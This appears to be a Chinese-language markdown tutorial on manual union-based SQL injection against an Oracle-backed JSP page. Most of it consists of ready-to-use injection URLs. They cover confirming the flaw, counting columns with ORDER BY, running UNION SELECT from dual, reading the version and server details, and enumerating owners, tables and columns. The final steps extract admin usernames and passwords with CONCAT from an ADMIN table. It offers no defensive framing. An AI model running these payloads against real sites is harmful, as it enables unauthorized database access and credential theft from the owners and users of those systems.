



## 1、注释符号

-- 空格 单行注释
/* */ 多行注释

## 2、判断是否注入

and 1=1 -- 
and 1=2 -- 

## 3、列数

```http
http://www.jsporcle.com/a.jsp?username=SMITH' order by 8 --
```

## 4、联合查询**

因为oracle 对列的类型比较严谨 所以 要用null 可以匹配任意类型
Oracle中的dual表是一个单行单列的虚拟表
Dual 是 Oracle中的一个实际存在的表，任何用户均可读取。
所以可以通过这个dual表来显示列数。

```http
http://www.jsporcle.com/a.jsp?username=SMITH' union select null,null,null,null,null,null,null,null from dual -- 
```

## **5、获取Oracle信息**

oracle 版本信息

```http
http://www.jsporcle.com/a.jsp?username=SMITH' union select null,null,(select banner from sys.v_$version where rownum=1),null,null,null,null,null from dual --
```

 

- 当前用户权限 （select * from session_roles）
- 当前数据库版本 （ select banner from sys.v_$version where rownum=1）
- 服务器出口IP (用utl_http.request 可以实现)
- 服务器监听IP (select utl_inaddr.get_host_address from dual)
- 服务器操作系统 （select member from v$logfile where rownum=1）
- 服务器sid (select instance_name from v$instance)
- 当前连接用户 (select SYS_CONTEXT ('USERENV', 'CURRENT_USER') from dual)
- 当前用户 (SELECT user FROM dual)

## 6、查询库名

```http
http://www.jsporcle.com/a.jsp?username=99' union select null,null,(select owner from all_tables where rownum=1),null,null,null,null,null from dual --
http://www.jsporcle.com/a.jsp?username=99' union select null,null,(select owner from all_tables where rownum=1 and owner <>'SYS' ),null,null,null,null,null from dual --
```

## 7、查询表

库表一定要是大写,查询第一个表

```http
http://www.jsporcle.com/a.jsp?username=SMITH' union select null,null,(select table_name from user_tables where rownum=1),null,null,null,null,null from dual --
```

 

查询第二个表

```http
http://www.jsporcle.com/a.jsp?username=SMITH' union select null,null,(select table_name from user_tables where rownum=1 and table_name<>'ADMIN'),null,null,null,null,null from dual -- 
```

## 8、查询列

查询 表 ADMIN第一个列

```http
http://www.jsporcle.com/a.jsp?username=SMITH' union select null,(select column_name from user_tab_columns where table_name='ADMIN' and rownum=1),null,null,null,null,null,null from dual -- 
```

第二个列

```http
http://www.jsporcle.com/a.jsp?username=SMITH' union select null,(select column_name from user_tab_columns where table_name='ADMIN' and column_name<>'ID' and rownum=1),null,null,null,null,null,null from dual -- 
```

查询表ADMIN 第三个列

```http
http://www.jsporcle.com/a.jsp?username=SMITH' union select null,(select column_name from user_tab_columns where table_name='ADMIN' and column_name<>'ID' and column_name<>'USERNAME' and rownum=1),null,null,null,null,null,null from dual -- 
```

ID USERNAME PASSWORD 

## 9、查询数据

```http
http://www.jsporcle.com/a.jsp?username=SMITH' union select null,(SELECT CONCAT(USERNAME,PASSWORD) FROM ADMIN),null,null,null,null,null,null from dual --
```

 

## 10、扩展

当前用户：

```sql
SELECT user FROM dual;
```

列出所有用户：

```sql
SELECT username FROM all_users ORDER BY username;
```

列出数据库

```sql
SELECT DISTINCT owner FROM all_tables;
```

列出表名：

```sql
SELECT table_name FROM all_tables;
SELECT owner, table_name FROM all_tables;
```

查询表所有列

```sql
SELECT column_name FROM all_tab_columns WHERE TABLE_NAME='ADMIN';
```

定位文件

```sql
SELECT name FROM V$DATAFILE;
```

